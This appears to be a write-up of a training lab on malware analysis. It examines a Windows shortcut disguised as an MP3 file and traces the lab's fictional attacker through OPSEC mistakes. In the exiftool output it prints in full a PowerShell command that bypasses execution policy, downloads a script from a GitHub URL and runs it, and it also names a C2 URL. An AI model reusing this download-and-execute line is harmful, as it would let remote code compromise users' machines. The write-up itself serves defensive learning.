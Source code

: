 # Malware Analysis Report

## Overview
This report outlines the investigation of a malicious file masquerading as a valid MP3. The analysis reveals a targeted attack involving a Windows shortcut (.lnk) that executes a PowerShell command to download and execute a malicious script. The investigation tracks the malicious actor and their OPSEC failures.

---

## Investigation Steps

### Step 1: Verify the File Type of `song.mp3`
**Command Used:**
```bash
file song.mp3
```
**Output:**
```text
song.mp3: Audio file with ID3 version 2.3.0, contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```
Initial inspection indicated that `song.mp3` was a typical MP3 file. However, further investigation revealed inconsistencies.

### Step 2: Check the File Type of `somg.mp3`
**Command Used:**
```bash
file somg.mp3
```
**Output:**
```text
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```
Analysis revealed that `somg.mp3` was not an MP3 file but a malicious Windows shortcut (.lnk) capable of executing commands. This raised a security red flag.

### Step 3: Analyze the Shortcut with ExifTool
**Command Used:**
```bash
exiftool somg.mp3
```
**Output:**
```text
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```
The shortcut points to `powershell.exe` and executes a PowerShell command that:
1. Disables PowerShell restrictions.
2. Downloads a malicious script (`IS.ps1`) from a remote server.
3. Executes the script to compromise the system.

---

## Malicious Actor Investigation

### PowerShell Script Details
The script contained a signature: **"Created by the one and only M.M."** This led to further investigation on GitHub.

### Searching GitHub for "M.M."
Using the signature as a query, I identified a GitHub repository linked to the attacker. The repository contained a single commit and comments by the attacker, "MM," which revealed their identity as **Mayor Malware.**

### OPSEC Failure
The attacker used the same handle "MM" across platforms, leaving a trail of evidence that allowed attribution.

---

## Key Findings
- **Author of the Song (song.mp3):** Tyler Ramsbey
- **C2 Server URL:** `http://papash3ll.thm/data`
- **Malicious Actor Identified:** Mayor Malware
- **GitHub Repository Details:**
  - Repository linked to "M.M."
  - Number of commits: 1

---

## Conclusion
The malicious actor exploited a Windows shortcut file to execute a PowerShell command and download a malicious script. OPSEC failures, such as the reuse of a distinctive signature and GitHub handle, enabled attribution to **Mayor Malware.** This analysis highlights the importance of vigilance in detecting suspicious files and tracking attackers through their digital footprints.

---

## Recommendations
1. Avoid executing files with suspicious extensions.
2. Use tools like `file` and `exiftool` to analyze files before opening.
3. Monitor GitHub and other platforms for malicious activities.
4. Strengthen PowerShell restrictions to prevent unauthorized script execution.

---

## Tools Used
- **file:** To identify the file type.
- **ExifTool:** To extract metadata from the shortcut file.
- **GitHub Search:** To investigate the attacker’s digital footprint.
